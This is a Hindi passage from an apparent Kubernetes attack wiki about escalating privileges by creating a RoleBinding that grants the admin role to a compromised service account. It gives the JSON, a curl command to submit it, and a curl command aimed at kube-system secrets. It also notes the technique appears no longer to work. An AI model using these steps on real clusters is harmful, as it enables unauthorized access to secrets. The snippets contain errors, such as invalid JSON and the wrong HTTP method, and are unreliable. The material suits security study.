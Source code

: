 ![](https://www.cyberark.com/wp-content/uploads/2018/12/forbidden\_attempt\_to\_gran\_extra\_privileges\_message-1024x288.png)

### **RoleBindings/ClusterRoleBindings प्राप्त करें और पैच करें**

{% hint style="danger" %}
**शायद यह तकनीक पहले काम करती थी, लेकिन मेरे परीक्षणों के अनुसार यह अब काम नहीं कर रही है उसी कारण के कारण पिछले खंड में स्पष्ट किया गया है। यदि आपके पास पहले से अनुमतियाँ नहीं हैं तो आप खुद को या एक अलग SA को कुछ अनुमतियाँ देने के लिए एक रोलबाइंडिंग नहीं बना/संशोधित कर सकते हैं।**
{% endhint %}

Rolebindings बनाने की अनुमति एक उपयोगकर्ता को **सेवा खाते को रोलों से बाइंड करने की** अनुमति देती है। यह अनुमति विशेषाधिकार वृद्धि की ओर ले जा सकती है क्योंकि यह **उपयोगकर्ता को एक प्रभावित सेवा खाते को व्यवस्थापक विशेषाधिकारों से बाइंड करने की अनुमति देती है।**

निम्नलिखित ClusterRole विशेष क्रिया _bind_ का उपयोग कर रहा है जो उपयोगकर्ता को _admin_ ClusterRole (डिफ़ॉल्ट उच्च विशेषाधिकार वाला रोल) के साथ एक RoleBinding बनाने और इस
```javascript
{
"apiVersion": "rbac.authorization.k8s.io/v1",
"kind": "RoleBinding",
"metadata": {
"name": "malicious-rolebinding",
"namespaces": "default"
},
"roleRef": {
"apiGroup": "*",
"kind": "ClusterRole",
"name": "admin"
},
"subjects": [
{
"kind": "ServiceAccount",
"name": "compromised-svc"
"namespace": "default"
}
]
}
```
इस JSON फ़ाइल का उद्देश्य है कि हम व्यवस्थापक "ClusterRole" (लाइन 11) को संकटपूर्ण सेवा खाते (लाइन 16) से बाँधें।

अब, हमें केवल निम्नलिखित CURL कमांड का उपयोग करके API को हमारे JSON को POST अनुरोध के रूप में भेजना है:
```bash
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" \
-H "Content-Type: application/json" \
https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
-d @malicious-RoleBinging.json
```
जब **एडमिन रोल "compromised-svc" सेवा अकाउंट से बाउंड हो जाता है**, हम इस कंप्रोमाइज़्ड सेवा अकाउंट टोकन का उपयोग करके **सीक्रेट्स की सूची बना सकते हैं**। निम्नलिखित CURL कमांड इस काम के लिए उपयोगी होगी:
```bash
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>"\
-H "Content-Type: application/json"
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```
## अन्य हमले
